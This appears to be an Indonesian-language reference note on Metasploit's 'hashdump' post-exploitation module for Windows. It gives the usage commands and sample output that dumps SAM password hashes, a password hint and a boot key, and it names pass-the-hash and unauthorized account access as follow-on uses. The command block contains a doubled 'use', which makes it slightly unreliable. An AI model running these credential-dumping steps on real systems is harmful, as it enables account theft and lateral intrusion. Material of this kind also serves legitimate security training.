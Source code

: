 # hashdump

Module `hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak hash password dari file `SAM` (Security Account Manager) pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (biasanya via meterpreter dengan hak SYSTEM) dan akan membaca isi `SAM` serta `SYSTEM registry hive` untuk memperoleh hash `NTLM` dari akun-akun lokal, sehingga berguna untuk serangan lanjutan seperti pass-the-hash, cracking password, atau akses tidak sah ke akun lain di jaringan.

## Cara Penggunaan di Metasploit

```
use use post/windows/gather/hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

admin:"10101010"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
loginbang:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


[*] Post module execution completed
```
